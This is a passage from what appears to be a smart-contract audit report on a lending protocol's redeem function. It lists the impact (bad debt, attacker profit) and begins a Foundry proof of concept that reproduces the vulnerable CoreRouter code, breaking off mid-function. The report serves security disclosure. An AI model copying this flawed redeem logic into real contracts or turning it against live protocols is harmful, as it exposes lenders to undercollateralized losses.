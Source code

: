 
### Impact

- **Bad Debt:** The protocol is left with an undercollateralized position, leading to losses during liquidation.
- **Attacker Profit:** Alice gains 800 DAI while leaving insufficient collateral (200 lDAI) to cover her 700 USDC debt.
- **Systemic Risk:** Repeated exploitation could accumulate significant bad debt, threatening protocol solvency.

### PoC

Below is a runnable PoC using Solidity and Foundry to demonstrate the exploit.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import "forge-std/Test.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {SafeERC20} from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

// Mock Interfaces
interface LTokenInterface {
    function exchangeRateStored() external view returns (uint256);
    function redeem(uint256 redeemTokens) external returns (uint256);
}

// Vulnerable CoreRouter
contract VulnerableCoreRouter {
    LendStorage public lendStorage;

    constructor(address _lendStorage) {
        lendStorage = LendStorage(_lendStorage);
    }

    function supply(uint256 amount, address underlying) external {
        IERC20(underlying).safeTransferFrom(msg.sender, address(this), amount);
        LToken lToken = lendStorage.lTokenToUnderlying(underlying);
        lToken.mint(msg.sender, amount);
    }

    function redeem(uint256 _amount, address payable _lToken) external returns (uint256) {
        address _token = lendStorage.lTokenToUnderlying(_lToken);
        require(_amount > 0, "Zero redeem amount");
        require(lendStorage.totalInvestment(msg.sender, _lToken) >= _amount, "Insufficient balance");

        (uint256 borrowed, uint256 collateral) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(_lToken), _amount, 0);
        require(collateral >= borrowed, "Insufficient liquidity");

        uint256 exchangeRateBefore = LTokenInterface(_lToken).exchangeRateStored();
        uint256 expectedUnderlying = (_amount * exchangeRateBefore) / 1e18;

        require(LTokenInterface(_lToken).redeem(_amount) == 0, "Redeem failed");
        IERC20(_token).transfer(msg.sender, expectedUnderlying);

        lendStorage.distributeSupplierLend(_lToken, msg.sender);
        uint256 newInvestment = lendStorage.totalInvestment(msg.sender, _lToken) - _amount;
        lendStorage.updateTotalInvestment(msg.sender, _lToken, newInvestment);

        if (newInvestment == 0) {
            lendStorage.removeUserSuppliedAsset(msg.sender, _lToken);
```